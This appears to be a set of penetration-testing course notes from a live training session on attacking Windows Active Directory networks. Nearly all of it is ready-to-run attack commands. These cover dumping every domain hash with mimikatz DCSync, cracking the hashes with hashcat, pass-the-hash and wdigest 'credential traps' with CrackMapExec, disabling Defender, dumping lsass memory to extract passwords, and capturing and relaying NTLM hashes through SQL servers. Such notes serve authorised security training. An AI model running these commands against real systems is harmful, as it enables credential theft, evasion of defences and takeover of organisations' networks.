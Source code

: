 *Day 3 notes from Light Pentest LITE (Live Interactive Training Experience)  
More information at https://7minsec.com/services/training/#lplite*

# Dumping and cracking Active Directory hashes
With mimikatz:
```
mimikatz.exe
mimikatz#> privilege::debug
mimikatz#> lsadump::dcsync /domain:tangent.town /all
```
Dump to CSV format:
```
log hashes.csv
mimikatz#> lsadump::dcsync /domain:tangent.town /all /csv
```
Clean up the resulting "dirty" CSV:
```
Import-CSV -Delimiter "`t" -Header @("id","user","hash") -path .\hashes.csv | select user,hash | convertto-csv -Delimiter ':' -NoTypeInformation | % { $_ -replace '"', ""} | select-string -pattern "\$" -notmatch | out-file crackme.csv -Encoding ascii
```

Run hashcat against the `crackme.csv`:
```
hashcat -m 1000 crackme.csv c:\users\public\pentest-tools\wordlists\rockyou.txt --username
```

Run hashcat again with the `--show` flag to see which users link to which passwords:
```
hashcat -m 1000 --show crackme.csv c:\users\public\pentest-tools\wordlists\rockyou.txt --username
```

# Pass-the-hash attacks
Sample:
```
python cme smb 10.0.7.100 -u brian -H 11111111111111111111111111111111
```

# Setting credential "traps" with CrackMapExec
See if your own system is set to cache passwords with wdigest:
```
reg.exe query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
```

Turn on wdigest for a victim host you have local admin over:

```
python cme smb VICTIM-PC -u USER -p PASSWORD --local-auth -M wdigest -o ACTION=enable
```
# Stealing passwords with mimikatz
From an admin command prompt, set your machine to trust outbound PowerShell connections to victim host:
```
winrm set winrm/config/client @{TrustedHosts="MACHINE-NAME"}
```

Enter a PowerShell session on the victim host:
```
Enter-PSSession -ComputerName MACHINE-ADMIN -Credential MACHINE-NAME\NAME-OF-LOCAL-ADMIN
```

Disable Defender:
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

Get lsass process:
```
get-process lsass
```

Use rundll32.exe to dump lsass:
```
rundll32 c:\windows\system32\comsvcs.dll, MiniDump XXX c:\some-folder\dump.dmp FULL
```

Rip open the memory dump and see if you find anything interesting!
```
mimikatz "sekurlsa::minidump dump.dmp" "sekurlsa::logonpasswords" "exit"
```

# Enumerating SQL services
Finding SQL servers with [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL):
```
import-module .\PowerUpSQL.psd1 
$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 | Where-Object {$_.Status -like "Accessible"}
```

Abusing stored procedures to snag hashes:
```
Invoke-SQLUncPathInjection -verbose -captureip x.x.x.x
```

# Relaying hashes from SQL 
Find targets with SMB signing NOT enabled:
```
python cme smb x.x.x.x/24 -u your-student-username -p yourpassword --gen-relay-list smbsigning.txt
```

Get *lsarelayx.exe* in listen mode:
```
lsarelayx.exe --host=127.0.0.1
```

Get ntlmrelayx relay going:
```
python ntlmrelayx.py -smb2support --no-smb-server -t smb://VICTIM-SERVER
```

Kick off the PowerUpSQL relay:
```
import-module .\PowerUpSQL.psd1 
Invoke-SQLUncPathInjection -verbose -captureip x.x.x.x
```
